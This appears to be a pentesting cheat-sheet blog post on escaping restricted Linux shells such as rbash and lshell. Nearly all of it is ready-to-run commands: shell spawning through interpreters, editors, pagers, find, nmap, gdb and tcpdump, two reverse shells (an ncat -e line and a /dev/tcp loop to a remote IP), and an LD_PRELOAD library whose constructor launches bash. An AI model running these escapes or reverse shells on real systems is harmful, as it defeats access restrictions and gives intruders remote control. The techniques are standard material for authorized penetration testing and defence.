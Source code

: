 ```yaml
---
title: Linux - Restricted environments
date: 2024-08-03 11:00:00
categories:
  - Pentesting
  - Linux
tags:
  - Pentesting
  - Linux
  - restricted environment
toc: true
---
```


---
Escape restricted Linux environments.

---
<!-- more -->

## List of restricted environments
```bash
rbash
rsh
rksh
rzsh
lshell
```

<br>

## Environment reconnaissance
```bash See exported environment variables
env
```
```bash Find the PATH
echo $PATH
```
```bash View the shell used
echo $SHELL
echo $0
```
```bash View available commands in /usr/bin
ls -lasR /usr/bin
```
```bash Check the availability of a command
type -a command
type -a ls
```
```bash Can you use '/'?
/bin/sh
```
```bash Can you set env variables?
export PATH=/bin:/usr/bin:$PATH
export SHELL=/bin/sh
```
```bash Can you copy files into existing PATH?
cp /bin/sh /dir/inside/PATH; sh
```
```bash List available commands
compgen -c
```

<br>

## Use built-in shells
```bash
# Attempt to spawn a bash shell
/bin/bash
bash -i
exec /bin/bash

# If bash is restricted, try sh
/bin/sh

# If neither works, try other common shells
python -c 'import pty; pty.spawn("/bin/bash")'
perl -e 'exec "/bin/sh";'
ruby -e 'exec "/bin/sh"'
php -r 'system("/bin/bash");'
php -r 'shell_exec("/bin/bash");'
php -a # interactive shell
```

<br>

## Use SSH for remote access
```bash Try to SSH to localhost
ssh user@localhost
```
```bash Replace shell with a new one running as login shell
ssh user@$IP -t "bash -l"
```
```bash Start bash without sourcing ~/.bashrc or ~/.bash_profile
ssh user@$IP -t "bash --noprofile"
```

<br>

## Use text editors
```bash
vim -c ':!/bin/sh'
vi -c ':!/bin/sh'
```
```bash
nano # (Ctrl+R, Ctrl+X)
/bin/sh
```
```bash
ed
:!bash
```

<br>

## Using `less`, `more` and `man`
```bash
less /etc/hosts
!bash
```
```bash
more /etc/hosts
!bash
```
```bash
man
!sh
```

<br>

## Use other utilities
```bash rev shell
ncat -e /bin/bash $IP $port
```
```bash
find . -exec /bin/sh \;
```
```bash
nmap --interactive
!sh
```
```bash
awk 'BEGIN {system("/bin/bash")}'
```
```bash
tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /bin/sh -Z root
```
```bash
ftp
!/bin/sh
```
```bash
gdb
!/bin/sh
```
```bash
gdb -p $$
!/bin/sh
```
```bash
scp -S /tmp/exit.sh x y:
```
```bash Use SUID binaries - passwd for example
passwd -r compat -s
```

<br>

## More options
```bash Create symlink
ln -sf /bin/bash restricted_shell
```
```bash Write to files
echo "evil code" | tee script.sh
```
```bash rev shell
# On restricted shell
nc -lvp 4444
# On local machine
/bin/bash -c 'exec 5<>/dev/tcp/$remote_ip/4444;cat <&5 | while read line; do $line 2>&5 >&5; done'
```
```bash 
stty raw -echo; fg; export SHELL=/bin/bash; export TERM=xterm-256color; export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp; stty rows 52 columns 208; reset;
```

<br>

Create a custom library
1. Create a shared object
```c /tmp/inject.c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("/bin/bash");
}
```
2. Compile the code
```bash
gcc -fPIC -shared -o /tmp/libinject.so /tmp/inject.c
```
3. Run the restricted binary with LD_PRELOAD binary
```bash
export LD_PRELOAD=/tmp/libinject.so
restricted_binary
```

<br>

---
---